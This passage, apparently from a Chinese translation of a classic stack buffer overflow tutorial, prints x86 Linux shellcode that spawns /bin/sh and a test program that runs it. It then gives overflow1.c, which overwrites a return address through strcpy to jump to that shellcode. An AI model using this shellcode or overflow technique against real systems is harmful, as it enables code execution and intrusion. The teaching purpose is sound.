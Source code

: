 testsc2.c

```c
char shellcode[] =
    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
    "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
    "\x80\xe8\xdc\xff\xff\xff/bin/sh";

void main() {
    int *ret;

    ret = (int *)&ret + 2;
    (*ret) = (int)shellcode;

}
```

```
[aleph1]$ gcc -o testsc2 testsc2.c
[aleph1]$ ./testsc2
$ exit
[aleph1]$
```

## 破解实战

现在把手头的工具都准备好. 我们已经有了shellcode. 我们
知道shellcode必须是被溢出的字符串的一部分. 我们知道必须把
返回地址指回缓冲区. 下面的例子说明了这几点:


overflow1.c

```c
char shellcode[] =
    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
    "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
    "\x80\xe8\xdc\xff\xff\xff/bin/sh";

char large_string[128];

void main() {
    char buffer[96];
    int i;
    long *long_ptr = (long *) large_string;

    for (i = 0; i < 32; i++)
        *(long_ptr + i) = (int) buffer;

    for (i = 0; i < strlen(shellcode); i++)
        large_string[i] = shellcode[i];

    strcpy(buffer,large_string);
}
```
